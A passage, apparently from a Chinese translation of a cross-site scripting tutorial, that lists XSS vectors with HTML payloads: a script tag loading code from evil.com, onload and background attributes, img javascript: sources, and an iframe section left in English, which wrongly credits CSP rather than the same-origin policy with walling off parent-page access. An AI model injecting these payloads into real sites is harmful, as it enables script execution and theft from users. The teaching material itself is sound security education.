 想了解更多如何实现 XSS 攻击，你可以参考《[一份跨站脚本攻击的综合教程](https://excess-xss.com/)》。

## 跨站脚本攻击方式

以下列表包含常见的 XSS 攻击方式，攻击者可使用它们降低网站的安全性。OWASP 组织维护了一个更完整的 XSS 攻击方式的列表：[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)。

### `<script>` 标签

`<script>` 标签是最直接的 XSS 攻击方式。它可以引用外部 JavaScript 代码或者将代码嵌入到标签内。

```html
<!-- 引用外部 JavaScript 代码-->
<script src=http://evil.com/xss.js></script>
<!-- 将代码嵌入到标签内 -->
<script> alert("XSS"); </script>
```

### JavaScript 事件

像 `onload` 和 `onerror` 这类 JavaScript 事件属性能在很多种标签中使用。这也是一类非常流行的 XSS 攻击方式。

```html
<!-- <body> 标签上的 onload 属性 -->
<body onload=alert("XSS")>
```

### `<body>` 标签

在 `<body>` 标签中，除了像上面一样，可以通过事件属性实现 XSS 攻击代码外，还可以通过更多鲜为人知的属性，比如：`background` 属性。

```html
<!-- background 属性 -->
<body background="javascript:alert("XSS")">
```

### `<img>` 标签

一部分浏览器会执行 `<img>` 属性中的 JavaScript 代码。

```html
<!-- <img> 标签 XSS 攻击 -->
<img src="javascript:alert("XSS");">
<!--  通过鲜为人知的属性进行 XSS 攻击 -->
<img dynsrc="javascript:alert('XSS')" />
<img lowsrc="javascript:alert('XSS')" />
```

### `<iframe>` 标签

The `<iframe>` tag lets you embed another HTML page in the current page. An IFrame may contain JavaScript but JavaScript in the IFrame does not have access to the DOM of the parent page due to the Content Security Policy (CSP) of the browser. However, IFrames are still very effective for pulling off phishing attacks.
